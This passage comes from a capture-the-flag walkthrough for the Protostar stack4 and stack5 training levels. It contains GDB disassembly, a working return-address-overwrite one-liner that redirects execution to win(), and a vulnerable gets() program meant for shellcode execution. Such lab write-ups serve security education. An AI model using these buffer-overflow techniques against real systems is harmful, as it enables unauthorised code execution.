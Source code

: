 In the disassembly of `win()`, we see that the function starts at `0x080483f4`.

```
(gdb) disass win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   %ebp
0x080483f5 <win+1>:     mov    %esp,%ebp
0x080483f7 <win+3>:     sub    $0x18,%esp
0x080483fa <win+6>:     movl   $0x80484e0,(%esp)
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

Putting it all together,

```shell
user@protostar:~$ python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

The program segfaults after executing `win()` because the stack is messed up
when it tries to `ret` from the function. However, this generally does not pose
a problem for exploitation.

# stack 5

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This is pretty similar to the previous level except that our goal here is to
execute [shellcode][wikipedia-shellcode]. As writing shellcodes is beyond the
scope of this exercise, we will use a `execve /bin/sh` shellcode from
[exploit-db.com][exploit-db-13357]. Due to the fact that we are reading input
using `gets()`, we pick this particular shellcode because it re-opens `stdin`.
A normal `execve /bin/sh` shell code will simply exit after running `/bin/sh`.

We open up the `stack5` binary in GDB.

```
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.

```

[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: {% post_url 2018-01-01-nebula-walkthrough %}
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/
